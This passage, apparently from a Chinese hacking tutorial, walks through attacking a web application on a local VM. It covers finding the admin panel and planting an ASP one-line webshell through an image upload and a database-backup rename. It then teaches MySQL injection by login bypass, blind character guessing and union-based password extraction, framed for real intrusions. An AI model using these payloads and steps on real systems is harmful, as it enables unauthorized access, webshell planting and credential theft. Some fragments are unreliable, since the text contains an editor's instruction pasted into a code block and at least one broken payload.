可能有的朋友会说，哪有结果啊。别急，点“127.0.0.1:80”前面的加号，再点“Web”前面的加号就可以展开扫描结果了，如图20。可以看到扫描到了一个目录 admin，并且 admin 前面有一个加号，说明在 admin 目录下还扫描到了文件或子目录。点加号，显示如图21。在 admin 目录下扫描出了一个子目录 eWebEditor，还有一个文件 index.asp。在 index.asp 上右键，选择“从默认浏览器打开”下的 `http://127.0.0.1:80/admin/index.asp`，打开的页面如图22，也找到了虚拟机中 W78 企业 ASP 网站管理系统 V1.1 的后台地址。


####### ③ 通过搜索引擎

通过搜索引擎找网站后台地址也是一种比较常用的方法。比如在 Google 中搜索 `intitle:后台管理 site:xxx.com`，就可能找到目标网站的后台地址，其中 xxx.com 是要找后台地址的网站域名。

####### ④ 通过网站上的链接查找

有时候网站首页或其他页面上会有类似名为“管理登录”的链接，点击这样的链接就可以找到网站后台地址。

####### ⑤ 通过网站上的文件查找

有时候网站用到的一些文件会保存在后台目录下，或保存在后台目录下的某个子目录下。这时候查看这些文件就能找到网站后台目录。比如网站用到的图片文件保存在网站后台目录下的子目录 picture 下，在 IE 浏览器中右键图片，选择属性就可以找到网站后台地址。


图23

####### ⑥ 通过 XSS 漏洞

如果要查找后台地址的网站存在 XSS 漏洞，可以考虑在用户交互的地方（比如留言板）中精心构造并插入 XSS 利用代码，诱使管理员在后台访问它，就可以利用 XSS 漏洞获得网站后台地址。

上面介绍了六种查找网站后台地址的常用方法，当然还有其他方法，这里不一一列举。

## 4. 后台拿 shell

得到了网站管理员的用户名和密码，也知道了网站后台登录地址，可以进后台想办法拿 shell 了。用注入得到的网站管理员用户名 admin、密码 admin，在网站后台登录页面 `http://127.0.0.1/admin/index.asp` 进行登录，成功进入后台，如图23。后台首页显示的信息还不少，包括站点物理路径、服务器名称和版本等信息。


图24

在网站后台的“网站管理”下有个“数据备份”的功能菜单，点开后是备份数据库的地方，如图24。

经过测试，“当前数据库路径”和“备份数据库名称”都可以自定义，考虑用备份数据库的方法获得 shell。把 ASP 一句话木马的服务端代码 `<%eval request("123")%>` 保存为 123.jpg，在网站后台点“新闻管理”下的“增加新闻”菜单来到增加新闻的地方，点“插入或修改图片”按钮把 123.jpg 上传上去，如图25。


图25

点“确定”按钮后就把 123.jpg 传上去了。传上去后图片的保存路径是什么呢？点“代码”按钮就看到图片上传后的保存路径为 `/uploadfile/20111224102831290.jpg`，如图26。把这个信息记录下来。来到备份数据库的地方，“当前数据库路径”写 `123.jpg`，上传后的保存路径写 `/uploadfile/20111224102831290.jpg`，备份数据库名称写 `test.asp`，如图27。点“确认备份”按钮后提示“备份数据库成功，备份的数据库为 `C:\www\admin\Databackup\test.asp.mdb`”。看来文件备份到了 admin 目录下的 Databackup 子目录下；来到 `C:\www\admin\Databackup\` 目录下，发现 `test.asp` 文件已经生成（有时候第一次生成的文件名为 `test.asp.mdb`，再备份一次就可以生成文件 `test.asp` 了），如图28。


图26


图27


图28

shell 地址为 `http://127.0.0.1/admin/Databackup/test.asp`，用 lake2 的 eval 最小马发送连接，成功获得 shell。图29是用 shell 到网站根目录的显示结果。

至此，一次利用注入进行的攻击就完成了。当然，这是用最简单的针对 Access 数据库的注入做的演示。针对 MSSQL、MySQL 数据库的注入操作更复杂，利用注入能做的事也更多；除了能像 Access 数据库一样猜数据外，MSSQL 的注入点运气好的能直接执行系统命令，MySQL 数据库的注入点运气好的话可以读取任意文件甚至直接写 shell，这里就不详细介绍了，感兴趣的请自己查找相关信息。

##### 3.2.4 注入的防御

注入漏洞能造成那么大的危害，肯定要想办法防御它。由于 SQL 注入漏洞产生的根源是没有对用户输入数据的合法性进行判断，理论上的防御方法就是对用户输入的或可能被控制的信息进行严格过滤。在实际操作上，可以选择利用比较出名的网站程序来搭建网站，它们经过很多人的检验，一般不会存在明显的注入漏洞。如果你网站的程序存在注入漏洞，又不想换网站程序，也可以通过利用通用防注入程序来防御注入攻击。


图29

#### 3.3 PHP 手工注入详解（初级篇）

#### PHP+MySQL 注入专题

早年前，国外流行起了一种名叫注入的攻击技术。在 03 年左右国内开始流行，当时注入技术主要用于攻击 Access 数据库。转眼这么多年过去，ASP+Access 已经逐渐退出舞台，逐渐被更高效率的 PHP+MySQL 取而代之。废话不多说，直接进入正题。既然今天讲的是 MySQL 注入，那对于 MySQL 的一些基本知识是必须要提的。

##### 3.3.1 MySQL 基础语句讲解

- 查询语句（select）：`select [字段名] from [表名] [条件] [group by] [order by] [limit]`
- 联合查询（union）：`select * from test where id=1 union select * from test where id=2`
- 插入语句（insert into）：`insert into [表名]([字段1],[字段2],[字段3]) values([内容1],[内容2],[内容3])`
- 更新语句（update）：`update [表名] set [字段名]=[要更新的值] [条件]`

###### 1. select

小菜们看到这肯定头晕了，没关系，我在下面举几个例子，看完自然就明白了。

假如现在有一个表：“hackerxfiles”，它的大概结构是这样的（图1）：


这个表当中存储了 5 个用户，分别是“黑客1、黑客2、用户1、用户2”以及管理员。那么我们怎么来获取里面的值呢？这里假如我们想获取黑客1这个用户的密码，那么我们首先看结构：黑客1这个用户名对应的密码是 123456，对应的 id 是 1，而 123456 这个密码所在的字段为 password，所以我们构造查询语句如下：


```sql
Select password from hackerxfiles where id=1
```

还记得上面我说的格式吗：`select [字段名] from [表名] [条件]`。这里的 password 为字段名，所以字段名处书写“password”；而表名为 hackerxfiles，所以表名处书写“hackerxfiles”。那么我们要查询的黑客1数据对应的 id 是 1，所以就要用到条件语句“where id=1”，意思就是查询 id 为 1 的数据。将这句语句在 MySQL 中执行，就会返回如下结果（图2）：

怎么样，是不是很简单呢？同理，如果我们要查询黑客2的密码或者其他用户的密码，只需要将 id 修改为要查询用户对应的 id 就可以了。

如果我们要查询管理员的密码，只需要执行：

```sql
Select password from hackerxfiles where id=5
```

因为 admin 这个用户对应的 id 为 5，所以我们使用“where id=5”，这样的话就会查询出管理员所对应的……密码了！

Select 语句就先暂时告一段落。

那么有的人就会问了，我不想查管理员的密码，我想直接增加一个别的用户，甚至是我想直接增加一个管理员用户，那该怎么办呢？

Ps：这还不简单么，赶快用 insert into 语句啊！

###### 2. insert into

在使用 `insert into` 语句前，我先给大家讲解下 `hackerxfiles` 这个表下各个字段的意思。

`id`、`username`、`password`，这 3 个就不用我多说了吧，就是用户 id、用户名以及用户密码的意思。

后面的 `regdate` 就是用户的注册时间。最后的 `admin` 字段的意思你可以理解为“是否是管理员”。这里我们就先暂定 `admin` 字段的值为 1 的时候，该用户为管理员用户；如果 `admin` 的值为 0 的时候，该用户则为普通用户。那么我们要如何插入一个别的管理员用户呢？下面我就演示一下 `insert into` 插入语句的使用！

```sql
insert into `hackerxfiles` (id,username,password,regdate,admin) values('', '管理员2','111111','2011-12-1',1)
```

看到这句命令，可能有的小菜又要头疼了，这都什么和什么！？别急，我来一部分一部分地说明。

首先我们还是按照先前给的格式：

```sql
insert into [表名] ([字段1],[字段2],[字段3]) values([内容1],[内容2],[内容3])
```

首先 `insert into` 后面跟的是表名，我们这里表名为 `hackerxfiles`，所以就书写为 `insert into 'hackerxfiles'`。

而 `hackerxfiles` 这个表里面一共有 5 个字段，分别为 `id`、`username`、`password`、`regdate`、`admin`。

所以我们后面就书写成 `insert into 'hackerxfiles' (id,username,password,regdate,admin)`。

至于最后面的 `values()`，括号内就是书写前面各个字段所对应的数据（值）。由于我们的 `id` 字段有自动累加属性，我们可以书写为空，也就是 `''`；`username` 就是我们要增加的用户名，这里我们书写为“管理员2”；`password` 自然就是对应的密码；`regdate` 就是注册时间，这个可以随便写个时间；最后的 `admin` 字段自然就是应该写 1 啦！还记得我前面说的吗？`admin` 字段为 0 的时候就是普通用户，为 1 的时候就是管理员用户！

当我们执行完这段语句后，我们的 `hackerxfiles` 表中将增加一行我们刚才添加的数据。如图 3：


到了这里大家也会发现，很多的命令看似复杂，但只要你仔细去理解它每个地方的含义，就会发现理解起来还是非常轻松的。好的，那么 `insert into` 插入语句讲完了。

###### 3. update

可能有的小子就要问了，如果我不想增加管理员呢？我想直接把管理员的密码给修改掉！这样该怎么办？修改密码，当然非 update 莫属啦！老规矩，我还是直接将语句写出来，再一步步地解释其含义：

```sql
update `hackerxfiles` set password='000000' where id=5
```

首先，我们的表名是 `hackerxfiles`，所以书写 `update 'hackerxfiles'`。而我们的目标是修改管理员的密码，而存放密码的字段是 `password`，所以后面应该书写为 `set password='000000'`。其中的 `000000` 为我们要修改成的密码内容。

而最后为什么要加上 `where id=5` 呢？因为在使用 update 语句的时候，如果不加后面的条件语句的话，那么它将默认更新整个表。也就是说，如果你不加上后面的条件，也就是直接执行 `update 'hackerxfiles' set password='000000'`，这样的话，它会将整个 `hackerxfiles` 表里的所有 `password` 字段的内容全部修改！通俗点说，就是这样会直接把所有用户的密码都修改成 `000000`！

可以看出，不加条件语句来执行 update 是非常危险的行为！

因为我们要修改的密码对应的用户为管理员，对应的 id 是 5，所以加上条件语句 `where id=5`。这样整个语句也就是 `update 'hackerxfiles' set password='000000' where id=5`。整句通俗一点就可以理解为：“修改 `hackerxfiles` 表中 id 为 5 的 `password` 字段中的值为 000000”。我们执行以后，密码也就自然修改成 000000 了，如图 4：


好了，到这里，MySQL 的基础 3 大语句的部分我们就讲解完了。然后就是 MySQL 中以及注入中都会经常用到的查询条件以及条件运算了。

###### ① 查询条件

首先大家要知道什么是查询条件。通俗点说就是等于（=）、不等于（<>）、大于（>）、小于（<）。等于大家前面也接触到了，比如我们只查询 id 等于 1 的数据，或者只修改 id=1 的数据。其他的几个查询条件使用方法也是相同的，只不过大家要注意的是，在 MySQL 中的不等于符号是：`<>`，这个由于比较特殊，所以不要混淆了！

至于其他的查询条件，如 `in`、`not in`、`like` 什么的就先不讲了。如果后面在注入中我们要使用到的时候，我再给大家讲解下。

###### ② 条件运算

现在大家就是要知道比较常用的条件运算了。大家在看各种注入教程或者渗透文章的时候，是不是都看见作者在那个注入点后面一下 `and 1=1`，或者 `and 1=2`，又或者是 `or 1=1` 什么的呢？小菜们一定会很好奇这个 and 和 or 这些东西到底是什么意思呢？

其实很简单，字面意思我们就可以直接理解。首先 and 我们可以理解为“而且”的意思，or 我们可以理解为“或者”的意思。我们通常看到各种注入教程里面的判断注入点的方法，都是先输入 `xxx.php?id=1 and 1=1`，然后再输入 `xxx.php?id=1 and 1=2`，如果返回的页面不相同的话，那么就说明注入漏洞存在。那么我们自然就可以理解为 `xxx.php?id=1`，而且 `1=1`，在 MySQL 中执行就会返回真；那么我们如果是 `xxx.php?id=1 and 1=2` 的话，在 MySQL 中就会等于假。这个时候由于 MySQL 会返回假，页面就有可能会出错，所以自然 `and 1=1` 和 `and 1=2` 返回的内容是不同的！当然这里也不是说得绝对！还是要相对而言！

至于 or 我前面也说了，就是“或者”的意思，和 and 就刚好相反。如果 `xxx.php?id=1 or 1=2`，那么可以理解为 `xxx.php?id=1` 或者 `1=2`。因为是用的“或者”，所以这里也是返回真，而不会像 and 一样直接返回假！

前面的 and 和 or 中返回真假还有一个重要的因素，那就是 `id=1` 必须为真的情况下，我前面所说的条件运算才成立。如果 `id=1` 都为假了，那么 `id=1 and 1=1` 自然也会为假！可能说得大家有点头晕了。没关系，在后面的注入方面我还会多提一下逻辑方面的问题。大家在慢慢熟悉了以后，也就自然而然明白了！

接下来还要提几个在注入中非常常用的几个 MySQL 函数：

- `version()` 获取数据库版本
- `database()` 获取当前数据库名
- `user()` 获取当前 MySQL 用户名
- `system_user()` 与 `user` 作用相同
- `session_user()` 与 `user` 作用相同
- `load_file()` 读取文件函数
- `into outfile()` 文件导出函数

这些函数使用起来非常简单，唯一有所不同的是 `load_file` 和 `into outfile` 函数。这两个函数我放在后面注入的时候来讲。我这里就先演示一下获取当前数据库版本，直接执行 `select version()` 就会直接返回我们的 MySQL 版本了。如图 5：


图 5

至于其他的几个如 `database`、`user` 这些函数，使用方法和 `version` 相同。

到这里，MySQL 的基础知识就告一段落了。可能细心的朋友会发现还有一个语句，那就是 union 联合查询没讲。这个我先暂时不说，等后面用到的时候再具体讲解下！

如果到这里有的同学觉得头晕的话，那没关系，因为最难的部分我们已经讲完了。接下来的注入语句部分，说穿了，也全部建立在这 4 大语句之上。所以如果还有什么不了解或者不懂的话，可以再复习下前面的内容！

由于本文重点是注入部分，所以 MySQL 我只是非常非常粗略地讲解了下。如果有心思想要深入地了解 MySQL 的同学，建议多去查阅一些 MySQL 的相关资料，多看看 MySQL 的中文手册！

##### 3.3.2 注入

在讲注入之前，不得不提到在 PHP+MySQL 注入中老生常谈的 `magic_quotes_gpc` 问题了。究竟什么是 `magic_quotes_gpc`？

简单地来说，`magic_quotes_gpc` 是 PHP 配置文件中的一个变量。当这个变量被设置为 ON 的时候，所有 POST 和 GET 提交的参数中，凡是带有双引号、单引号以及反斜杠和空格这几种符号的内容，都将在这些符号前面添加 `\` 号来进行转义！可能有人要问了，它转义就转义它的呗，关我们注入什么事呢？这里我先不说，免得大家又晕了。等到它和注入有关系的时候我再讲解！

下面就正式开始讲解 MySQL 注入方面的内容了。以下内容均先从 `magic_quotes_gpc=off` 的情况说起，也就是转义未开的情况下！

由于我们还没提到 union 方面的知识，所以这里我先讲一下本表查询。至于本表查询是什么意思，大家可以直接看下面一个例子：

```php
$id=$_POST['id']; //将post过去的值赋给$id
$sql="select * from `hackerxfiles` where id=".$id; //构造查询语句
```

```php
$query=mysql_query($sql);  //执行此语句,将执行结果赋值给$query
$array=mysql_fetch_array($query);  //将执行结果$query转换成数组,并赋值给$array
<html>
<body>
<form action="" method="post">
请输入要查询的id: <input type="text" name="id"> <input type="submit" value="查询"><br>
<?php
if ($array == TRUE){
    echo "用户名存在";  //如果数组为真则输出用户名存在
}else{
    echo "用户名不存在";  //如果数组为假则输出用户名不存在
}
?>
</form>
</body>
</html>
```

注意下这里的数据库仍然使用的是我们前一部分用作演示的 `hackerxfiles` 数据库！各个语句我已经标示出了含义。

懂 PHP 基础的朋友应该一下就看懂了，不懂的朋友不要紧，这里我们主要看 `$sql` 这个地方。可以看出这里是将我们 post 提交过去的值当做查询的条件。`$id` 就是我们提交过去的值，而且程序中没有做任何的过滤！

执行后将结果赋值给 `$query`，再将 `$query` 使用 `mysql_fetch_array` 函数转换成数组赋值给 `$array`，最后再判断 `$array` 的真假。

> （注：在 MySQL 中如果查询失败，那么 `$query` 的值就会为空，`$query` 的值为空了，那么自然转换成数组也会失败，所以如果 MySQL 查询失败也就代表 `$array` 的值为假！）

如果返回值为真就表示输出存在，而返回值为假则输出不存在。既然我们仍然使用先前的 `hackerxfiles` 数据库，所以我们这里提交 id=1 试试，如图 6：


图 6

可以看见，由于我们的 id=1 在 `hackerxfiles` 表里面是存在的，所以这里返回为真。这样我们就输入 id=10 看看，如图 7：


图 7

由于 id=10 是不存在的，所以自然就是返回假。那好，我们现在就来规定一个目标：我们要让 id 不存在的情况下它依然显示正确！首先我们看它的 SQL 代码：

```sql
select * from `hackerxfiles` where id=".$id
```

由于无任何过滤，所以 id 的内容完全是由我们控制的。那么我们怎么才能让它在 id 不正确的时候也返回正确呢？其实很简单，还记得前面说的 or 语句么，我们要用到的就是它。

我们直接在框里输入：`10 or 1=1`。这样一来，整个语句就变成了：

```sql
select * from `hackerxfiles` where id=10 or 1=1
```

首先 id=10 肯定是不成立的，因为数据库里面没有 id=10 的用户，但是 1=1 是成立的，而我们这里要用 or 连接，所以这里就变成了 id=10 或者 1=1。那么数据库返回真，我们提交查看，如图 8：


图 8

想必看到这里，各位又该大致了解了 or 的实际意义。我们通过特殊构造的内容成功改变了返回的值！让不可能变成了可能！

上面我已经简单演示了 PHP+MySQL 基本的注入方法，下面我来演示下传说中的 PHP 后台万能密码。ASP 下的万能密码大家都很熟悉吧？PHP 下如果代码严谨度不够，同样有产生万能密码的可能！先看以下 PHP 代码：

```php
$username=$_POST['username'];  //获取username表单的值 赋给$username
$password=$_POST['password'];  //获取password表单的值 赋给$password
$sql="select * from `hackerxfiles` where username='$username' and password='$password'";  //构造查询语句
$query=mysql_query($sql);  //查询
$array=mysql_fetch_array($query);  //转换成数组

//省略无用代码若干
if ($array){
    echo "登录成功";  //如果数组成立则登录成功
}else{
    echo "登录失败,请检查用户名和密码是否正确";  //如果数组不成立则登录失败
}

//省略无用代码若干
从这里往下都是需要改的，如果不知道该怎么改。参考上次发给您的文本。加以对照！
```

这是一个比较典型的用户登录代码了，别的代码我就不说了，我们主要看它的 SQL 语句：

`select * from 'hackerxfiles' where username='$username' and password='$password'`

大家注意到没有，在 `$username` 和 `$password` 的前后都有单引号包围，所以我们在构造注入语句的时候，不得不注意到整个语句的完整性，必须要考虑到单引号的闭合问题。若不闭合单引号的话，MySQL 则会出错！

然后再看 `username='$username' and password='$password'`。and 我们已经说过了，理解为“而且”的意思。那么这里就可以翻译为 `username='$username'` 而且 `password='$password'`。当这两个条件都为真的时候，那么 MySQL 才会返回真；MySQL 返回真，那么 PHP 代码中才会为真；PHP 代码判断为真，那么用户才会登录成功。那么我们怎么让这个语句为真呢？看我构造如下：

- 用户名处输入：`管理员'--`（注意 `--` 前后有空格）
- 密码处随意输入

好，我们先不去看结果，有的同学肯定要问了，这个 `--` 是干什么用的啊？这里就要提出一个新知识了，那就是 MySQL 注释符。大家都知道，不管什么语言都有它的注释符，比如 PHP 的注释符就是 `//` 或者 `/**/`，那么 MySQL 的注释符呢，主要有 3 大类：

- `#`
- `--`
- `/**/`

那么 MySQL 这几个注释符有什么作用呢？可以这样简单地来理解：在一个 MySQL 语句中，系统只会执行注释符前面的命令，而注释符后面的命令将被忽略。也就是说注释符后面的命令将不会被执行。

就拿我上面的例子来说吧。我那样提交以后，SQL 语句将变成：

```sql
select * from `hackerxfiles` where username='管理员' -- '' and password=''
```

大家看明白了吗？我们把这里当成是一个后台的登录页面，管理员就是后台用户名（参考图 1），而密码我们现在并不知道，所以我们先输入管理员，再用一个单引号将前面的单引号闭合，再使用注释符 `--` 将后面的 SQL 语句忽略掉。也就是说，这条 SQL 语句实际上只执行了这部分：

```sql
select * from `hackerxfiles` where username='管理员'
```

这样的话就完全忽略掉了后面的 `and password=xxx`，而 `username='管理员'` 是成立的，所以这条 SQL 语句会返回一个真的值，自然 PHP 中也会判断为真。都为真了那还说什么？直接登录了呗 O(∩_∩)O~ 这就是所谓 PHP 万能密码了。

当然你也可以这样构造：`管理员'#` 或者 `管理员'/*`，这两种方法效果都是一样的，如图 9、10。


图 9


图 10

到这里大家会发现，实际上注入也就那么回事。但我上面举的一系列例子以及方法，都只不过是和 PHP 以及 MySQL 玩一些逻辑游戏罢了，并没有涉及到查询方面。比如我如何获取到管理员的密码呢？如何获取到黑客1用户1的密码呢？好，那么下面我们就来讲解一下本表查询中的密码猜解。注意这里的本表查询概念，老规矩，看代码：

```php
<?php
//省略无用代码
$id=@$_GET['id']; //获取get方式的参数id的值 并赋给$id
$sql="select * from `hackerxfiles` where id=".$id; //构造查询语句
$query=mysql_query($sql); //执行
$array=@mysql_fetch_array($query); //转换成数组

if ($array){
    echo "id正确!"; //数组为真则输出正确
}else{
    echo "id错误!"; //数组为假则输出错误
}
```

这里我们先试验一下 `id=1`，如图11：

`id=1` 在数据库中是存在的，所以这里自然返回正确。那么我们现在的目的是获取到管理员的密码，怎么办呢？由于此处是完全的真假型判断，完全没有将查询出的值输出到页面，所以我们没有办法直接爆出数据库中的数据，只能一个字符一个字符地去猜。这里我们先假设密码这个字段与 `id` 字段在同一个表当中（实际上就是在一个表中，参考图1，但是在实际注入中，有的比较奇怪的程序会把 `id` 和用户信息分隔开）。不在一个表的情况我后面会说，废话不多说，看我构造：

我们先来判断密码的长度，提交 `id=1 and length(password)>1`。

`length` 是 MySQL 中的一个内部函数，使用 `length` 将返回内容的长度。这里我们先判断长度是否大于 1，这里返回了正确，说明密码大于 1，如图12：

我们再提交 `id=1 and length(password)>5`，也返回正确，说明密码长度大于 5，继续提交：

```sql
id=1 and length(password)>6
```

这次返回错误了，说明密码的长度大于 5 小于 6，那么就可以确定密码的长度为 6 位。接着我们来猜第 1 位密码，猜密码我们使用 `left` 函数，先不多说，看构造如下：

```sql
id=1 and left(password,1)='0'
```

这里的 `left` 也是 MySQL 的一个内部函数，用来返回指定的内容。参数1为字段名，因为我们存放密码的字段是 `password`，所以这里就写 `password`；第2个参数是从左边起返回的内容个数，这里我们先判断第一个字符的内容，所以写 1。这样提交以后我们会发现返回了错误，如图13。

图11

图12

说明密码的第一位不为 0，那么我们继续提交 `id=1 and left(password,1)='1'`，这个时候返回正确了，说明密码第1位的内容是 `'1'`。那么以此类推，再判断第2位 `id=1 and left(password,2)='12'`，返回正确，说明第2位的内容为 `'2'`。就这样一直猜下去，直到猜到 `id=1 and left(password,6)='123456'` 返回了正确，这里我们就可以确定密码的内容为 `123456` 了，如图14。

图13

图14

可能到这里有的人要抱怨了：靠，要按照这个方法那得猜到后年马月才猜得出密码啊？万一密码有符号有字母什么的那不得累死人啊？嘿嘿不用着急，精彩的还在后面。

的确，`left` 这个函数猜密码确实蛋疼，那么就没别的方法了吗？当然不是，看我构造如下语句：

```sql
id=1 and ascii(mid(password,1,1))>1
```

首先来解释下 `mid` 函数的意思。`mid` 函数是指从指定字符串里取出指定位置开始的第几个字符。可能这里说得有点绕口，简单来说 `password` 的值是 `123456`，那么 `mid(password,1,1)` 的意思就是取出 `password` 中第1个字符开始的第1个字符，那么取出的值就是 `1`。如果是 `mid(password,3,1)`，那么就是说取出 `password` 中第3个字符开始的第1个字符，这里自然取出的就是 `3`。其实最后一个参数大家可以直接忽略，不管什么情况直接写 1 就可以了，然后第2个参数你要取哪位就写多少。

然后 `ascii` 函数的意思就是将指定值转换成 ASCII，比如 `ascii(mid(password,1,1))` 自然就是将 `1` 转换为 ASCII，而 `1` 对应的 ASCII 编码是 `49`，这里自然是大于 1 的，所以这里的 `id=1 and ascii(mid(password,1,1))>1` 自然是返回真。大家可以发现，通过 `ascii+mid` 函数这种方法，猜解起来就要轻松得多了。你只需要直接判断大于小于，然后慢慢缩小范围，最后确定出正确的 ASCII 值就可以了，起码减少了 60% 的工作量。至于 ASCII 怎么转换成字符串呢？百度一下就有很多 ASCII 码表查询的，我这里随便给出一个地址吧：http://www.cnblogs.com/edzh/archive/2010/07/23/1783444.html

本章查询就说到这里。那如果出现我们要查询的字段和当前存在注入的字段不在一个表的情况呢？比如我们获得一个文章方面的注入点，很显然文章的表和用户数据的表一般情况下是不可能在一起的，这个时候怎么办呢？难道只有放弃么？当然不可能啦。

那么就要请出我们的子查询技术和 `union` 联合查询技术啦\~\~\~ 首先说下，子查询技术必须要 `mysql>=4.1` 才可以使用，`union` 联合查询技术必须要 `mysql>=4.0`。看到这里不必担心，经过多年的洗礼，现在还有多少使用 3.x 版本的呢？很明显已经跨入 4.0-5.x 的天地了，所以我们可以放心大胆地使用这两个查询方法。`union` 我先不讲，因为 `union` 在这个例子中发挥的作用并不大，只是要猜内容的话用子查询绰绰有余了。

还是利用刚才的实例，假设现在我们的 `password` 和 `id` 不在同一个表，我们的 `password` 在一个叫做 `test` 的表里面，那么我们如何跨表查询到它呢？我们提交如下语句：

```sql
id=1 and ascii(mid((select `password` from `test` where id=1),1,1))>10
```

首先这里我用括号将语句 `select \`password\` from \`test\` where id=1` 括起来了，在 MySQL 4.1 子查询技术中会将括号内执行并返回执行的结果。在这里 `select \`password\` from \`test\` where id=1` 查询出的结果为 `123456`（当然在实际入侵中我们是不知道密码是多少的），那么组合起来就是：

```sql
id=1 and ascii(mid(123456,1,1))>10
```

`mid` 和 `ascii` 函数我先前已经讲过了，这里就不多啰嗦了，一直提交到：

```sql
id=1%20and%20ascii(mid((select%20`password`%20from%20`test`%20where%20id=1),1,1))%3E49
```

发现返回错误了，说明值小于 49，再提交：

```sql
id=1%20and%20ascii(mid((select%20`password`%20from%20`test`%20where%20id=1),1,1))=49
```

返回正确，这里就可以确定密码第1位的 ASCII 字符为 49 了。所谓的跨表查询也不过就是如此。

讲到这个份上也就顺嘴提一下 MySQL 跨库查询吧，只要当前的 MySQL 账号对目标数据库的读取权限足够，跨库查询也非常简单，具体查询语句如下：

```sql
select * from `test`.`user`
```

这句语句执行后就将查询出 `test` 数据库中的 `user` 表的数据，具体注入利用方法和以上的所有技巧相同。

##### 3.3.3 Union

讲到这里，大家会发现上面讲解的所有内容都是靠猜，不免觉得非常枯燥吧？其实以上所讲解的，就是网络上通俗所说的“盲注”技术了。那么在非盲注的情况下呢？比如一个文章页面或者一个用户信息页面，它会将查询出的数据输出到网页上，在这种情况下就可以使用传说中的 `union` 联合查询语句了。说了这么长终于轮到它登场了。使用之前我们先来了解什么是 `union` 联合查询语句，`union` 语句怎么使用，还是先引用一段 `union` 的说明：

> SELECT ... UNION [ALL] SELECT ... [UNION SELECT ...]  
> UNION 在 MySQL 4.0.0 中被实现。  
> UNION 用于将多个 SELECT 语句的结果联合到一个结果集中。  
> 在 SELECT 中的 `select_expression` 部分列出的列必须具有同样的类型。第一个 SELECT 查询中使用的列名将作为结果集的列名返回。  
> SELECT 命令是一个普通的选择命令，但是有下列的限制：  
> 只有最后一个 SELECT 命令可以有 INTO OUTFILE。

使用 `union` 有一个必须要注意的是：`union` 前后的 `select` 语句执行结果中的字段数必须相同，若不相同 SQL 语句将会出错导致不能成功执行。比如这一段语句：

```sql
select * from `hackerxfiles` union select * from `test`
```

这段语句就是使用 `union` 同时查询两段 `select` 语句。如果这里的 `hackerxfiles` 表有 5 个字段，而 `test` 有 6 个字段的话，执行就会出错。所以在使用 `union` 注入的时候有一个必要的工程就是判断字段数。我们在 `hackerxfiles` 这个表里面测试下 `union` 的特性，当我们执行 `select * from \`hackerxfiles\` union select 1,2,3,4` 的时候如图15。

由于 `hackerxfiles` 表的字段数是 5 个，分别是 `id, username, password, regdate, admin`（参见图1），而我这里 `union` 后半段的字段数只有 4，所以肯定会出错。那么我们执行 `select * from \`hackerxfiles\` where id=1 union select 1,2,3,4,5` 看看，如图16。

大家可以看到很有意思的是这里一共返回了两列数据，第1列数据就是我们 `union` 前半段所查询出的结果，而第2列的数据竟然变成了我们刚才定义的字段名，也就是 `select 1,2,3,4,5` 这5个字段名直接作为结果显示出来了。到这里有人就会问了，这样做有什么意义呢？这里我先不解释，我们再来执行以下语句：

```sql
select * from `hackerxfiles` where id=1 and 1=2 union select 1,2,3,4,5
```

通过我们前面所学的知识不难发现，`union` 前半段的查询语句如果是直接查询的话，是查询不出任何数据的。那么我这样写的目的是什么呢？我们看执行后的结果，如图17：

到这里大家如果看懂前面引用文的话，应该明白个大概了吧。如果我们的第一个查询的结果为空，那么 MySQL 将不会返回 `union` 之前的第一个查询，而会直接返回第2个查询的内容。那么我为什么要把这个东西提出来讲呢？因为这个在注入中起着至关重要的作用。至于有什么作用，我后面会慢慢说来。

好，我们先看下面一个读取用户信息并且输出到网页的例子，看看这种形式的注入怎么来利用，怎么让 `union` 发挥出它的作用。代码如下：

```php
<?php
//...省略无用代码

$id=$_GET['id'];  // 获取get过去的id的内容，无任何过滤
$sql="select * from `hackerxfiles` where id=".$id;  // 构造查询语句
$query=mysql_query($sql);  // 查询
$array=mysql_fetch_array($query);  // 将结果转换到数组

echo "用户名:".$array['username']."<br>";  // 输出用户名
echo "注册时间:".$array['regdate']."<br>";  // 输出注册时间
?>
```

直接提交 `user.php?id=1`，可以发现成功查询出了 `id` 为 1 的用户相关数据，如图18。

那么这里我们怎么来查询出这个用户的密码呢？还记得前面说的 `union` 用法么；我们先来提交如下语句：

```sql
id=1 and 1=2 union select 1,2,3,4,5
```

提交后 SQL 语句将会变成这样：

```sql
select * from `hackerxfiles` where id=1 and 1=2 union select 1,2,3,4,5
```

嘿嘿，那么执行后会变成什么样呢？看图19：

神奇么？我们这样执行后，用户名那里直接查询出了 2，而注册时间查询出了 4（原文处识别有误）。结合我们图17的演示，这个现象大家应该都能理解吧。那么既然我们知道用户名那是显示的 2，那么我们怎么让这个 2 变成我们想要的东西呢？比如我们想要这个用户的密码，怎么办呢？

这还不简单么，直接构造如下语句：

```sql
id=1 and 1=2 union select 1,password,3,4,5 from hackerxfiles
```

执行后如图20：

看见没有，直接把密码给爆出来了！现在大家知道 `union` 的重要性了吧。当然要爆出密码还有个前提，就是必须得知道当前的表名。这里我们自然知道表名，而实际入侵中我们是不知道表名的。至于怎么获取表名，我在后面会讲，大家先别着急，可以先把后面的表名无视掉，尽管这很重要。

同理，如果我们想获取数据库的版本信息，或者数据库用户名，那么直接提交：

```sql
id=1 and 1=2 union select 1,version(),3,user(),5
```

这里是查询系统信息，所以不需要用到表，也不用 `from xxx` 了。我们执行后看看，如图21：这里很明显就知道了我们的 MySQL 版本是 `5.0.9`，而且当前的用户名是 `root`。

到这里大家可以发现，盲注和 `union` 查询完全不是一个等级的，盲注费时费力，而 `union` 却轻而易举就获取到了想要的信息。

##### 3.3.4 猜表名

下面该来说说如何猜表名了。猜表名在 `mysql<5` 的版本里面是相当之艰难的，在 `mysql>5` 的版本里却又是相当之简单的。那么为什么它们区别那么大呢？

因为在 `mysql>5` 的版本中，每个用户名下系统都会生成一个名为 `information_schema` 的数据库。那么这个数据库是干嘛的呢？我们可以简单地将它理解为“信息缓存数据库”。为什么这样叫呢？是因为在当前用户下数据库所有建立过的表、每个表中使用过的字段，都将保存在 `information_schema` 数据库里面，而 `information_schema` 数据库对当前用户是有读取权限的，所以我们就可以不用辛苦地去猜表了，直接在这个数据库里面读表就行了，猜字段也一样简单，直接在此数据库里面查询。

而在 `mysql<5` 的版本当中，没有这个数据库，所以要获取到数据库就只有靠猜，猜解方法如下：

```sql
id=1 select 1,2,3,4,5 from 要猜的表名
```

